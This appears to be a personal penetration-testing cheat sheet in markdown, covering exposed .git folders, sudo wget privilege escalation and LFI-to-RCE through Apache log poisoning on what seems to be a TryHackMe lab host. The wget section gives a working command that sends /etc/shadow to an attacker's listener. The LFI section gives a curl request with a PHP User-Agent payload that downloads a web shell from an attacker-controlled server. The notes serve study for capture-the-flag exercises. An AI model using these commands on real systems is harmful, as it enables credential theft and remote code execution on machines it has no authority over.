 ### Exploiting GIT to gain sensitive information


### REFERENCES

- [Some OP medium blog](https://satyasai1460.medium.com/how-git-folder-can-be-exploited-to-access-sensitive-data-eb805c38fd6c)

----------------------------

### PRIVESC with /usr/bin/wget

![image](https://github.com/user-attachments/assets/592ffb4a-8c02-479f-b0be-6bc6b131435d)

- File read,set up a listener with nc on your attack machine to receive
- Send file with

      sudo -u root /usr/bin/wget post-file=/etc/shadow <ip>:<port>

- To receive file

      sudo -u root /usr/bin/wget http://<ip>:<port>/filename -O <save name>

### REFERENCES

- [HDKS](https://exploit-notes.hdks.org/exploit/linux/privilege-escalation/sudo/sudo-wget-privilege-escalation/)

----------------------------

### LFI2RCE with apache2 server's log

- Log location-:`/var/log/apache2/access.log`
- Host a command shell php code with python's http.server

  ![image](https://github.com/user-attachments/assets/e2e7c58f-4e52-44bc-aaa5-1c3f2cec9e49)

- RCE:
  - Exploit HTTP-Header `User-Agent`
    e.g

         curl http://mafialive.thm/test.php\?view\=/var/www/html/development_testing/.././.././.././.././var/log/apache2/access.log -H "User-Agent: <?php file_put_contents('shell.php',file_get_contents('http://<http server's ip>:<http server'sport>/shell.php')) ?>"
  - Reload the log file to execute code
  - Sometimes you need to set the file path of shell.php to a path with write permissions

 ----------------------------
 
 ### REFERNCES:

 - [Roquenight](https://github.com/RoqueNight/LFI---RCE-Cheat-Sheet)
   
---------------------------------
